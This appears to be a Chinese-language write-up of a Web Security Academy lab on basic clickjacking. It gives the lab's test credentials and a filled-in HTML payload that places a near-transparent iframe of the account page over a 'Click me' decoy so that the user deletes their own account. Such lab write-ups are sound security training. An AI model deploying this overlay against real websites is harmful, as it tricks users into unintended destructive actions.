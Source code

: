 
> 
<h3>实验1:带有CSRF令牌保护的基本点击劫持</h3>
信息：
1、本实验包含登录功能和受CSRF令牌保护的删除帐户按钮。用户将单击诱饵网站上显示单词“click”的元素。
2、解决实验：制作一些HTML来构建帐户页面，并欺骗用户删除他们的帐户
3、已有账号：wiener:peter
<hr/>
part1:
登录账号
转到利用漏洞攻击服务器，对模板进行以下调整：
1、将iframe src属性中的YOUR-LAB-ID替换为自己实验室ID<br/> 2、用合适的像素值替换iframe的$height_value和$width_value变量（建议分别为700 px和500 px）。<br/> 3、用合适的像素值替换诱饵网页内容的$top_value和$side_value变量，以便“删除帐户”按钮和“测试我”诱饵动作对齐（我们建议分别为300 px和60 px）。<br/> 4、设置不透明度值$opacity以确保目标iframe是透明的。最初，使用0.1的不透明度，以便可以对齐iframe操作并根据需要调整位置值。对于提交的攻击，值0.0001将起作用。
<pre><code>&lt;style&gt;
    iframe {
        position:relative;
        width:$width_value;
        height: $height_value;
        opacity: $opacity;
        z-index: 2;
    }
    div {
        position:absolute;
        top:$top_value;
        left:$side_value;
        z-index: 1;
    }
&lt;/style&gt;
&lt;div&gt;Test me&lt;/div&gt;
&lt;iframe src="YOUR-LAB-ID.web-security-academy.net/my-account"&gt;&lt;/iframe&gt;

我的是：
&lt;style&gt;
iframe {
    position:relative;
    width:500px;
    height: 700px;
    opacity: 0.0001;
    z-index: 2;
}
div {
    position:absolute;
    top:500px;
    left:60px;
    z-index: 1;
}
&lt;/style&gt;
&lt;div&gt;Click me&lt;/div&gt;
&lt;iframe src="https://0a11000404d22a86c463666000e90017.web-security-academy.net/my-account"&gt;&lt;/iframe&gt;</code></pre>
